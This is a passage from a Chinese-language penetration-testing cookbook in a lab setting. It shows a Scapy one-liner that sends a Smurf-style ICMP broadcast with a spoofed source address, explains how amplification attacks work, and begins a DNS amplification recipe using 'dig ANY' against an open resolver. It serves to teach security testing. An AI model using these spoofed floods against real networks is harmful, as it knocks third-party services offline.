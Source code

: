 实际上，两个响应地址不足以执行有效的 DoS 攻击。 如果这个练习复制到另一个具有半现代化主机的实验室中，结果很可能是类似的。 在有足够的响应地址来触发拒绝服务的情况下，源地址将需要替换为了攻击目标的 IP 地址：

```
>>> send(IP(dst="172.16.36.255",src="172.16.36.135")/ ICMP(),count=100,verbose=1) 
......................................................................... ........................... 
Sent 100 packets. 
```

在提供的示例中，Scapy 的单行命令用于执行与之前讨论的相同操作，但此时除外，源 IP 地址被伪造为 LAN 上另一个系统的地址。 此外，`count`可用于按顺序发送多个请求。

### 工作原理

放大攻击的原理是利用第三方设备，使网络流量压倒目标。 对于多数放大攻击，必须满足两个条件：

+   用于执行攻击的协议不验证请求源
+   来自所使用的网络功能的响应应该显着大于用于请求它的请求。

传统 smurf 攻击的效率取决于 LAN 上响应 IP 定向的广播流量的主机。 这种主机从目标系统的伪造 IP 地址接收 ICMP 广播回响请求，然后针对接收到的每个请求同时返回 ICMP 回响应答。

## 6.4 DNS 放大 DoS 攻击

DNS放大攻击通过对给定域执行所有类型记录的伪造查询，来利用开放的 DNS 解析器。 通过同时向多个开放的解析器发送请求来使用 DDoS 组件，可以提高这种攻击的效率。

### 准备

为了模拟 DNS 放大攻击，你需要有一个本地名称服务器，或知道一个开放和可公开访问的名称服务器的 IP 地址。 提供的示例将 Ubuntu 用作扫描目标。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。

### 操作步骤

为了了解 DNS 放大的工作原理，可以使用基本的 DNS 查询工具，如`host`，`dig`或`nslookup`。 通过对与已建立的域相关的所有记录类型执行请求，你将注意到一些请求返回了相当大的响应：

```
root@KaliLinux:~# dig ANY google.com @208.67.220.220

; <<>> DiG 9.8.4-rpz2+rl005.12-P1 <<>> ANY google.com @208.67.220.220 
;; global options: +cmd
;; Got answer: 
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 41539 
;; flags: qr rd ra; QUERY: 1, ANSWER: 17, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION: ;
google.com.         IN   ANY
;; ANSWER SECTION: 
google.com.      181   IN   A   74.125.232.101 
google.com.      181   IN   A   74.125.232.97 
google.com.      181   IN   A   74.125.232.102 
google.com.      181   IN   A   74.125.232.99 
google.com.      181   IN   A   74.125.232.104 
google.com.      181   IN   A   74.125.232.96 
google.com.      181   IN   A   74.125.232.100 
google.com.      181   IN   A   74.125.232.103 
google.com.      181   IN   A   74.125.232.105 
google.com.      181   IN   A   74.125.232.98 
google.com.      181   IN   A   74.125.232.110 
google.com.      174   IN   AAAA   2607:f8b0:4004:803::1007 
google.com.      167024   IN   NS   ns2.
google.com. 
google.com.      167024   IN   NS   ns1.
google.com. 
google.com.      167024   IN   NS   ns3.
google.com. 
google.com.      167024   IN   NS   ns4.
google.com. 
```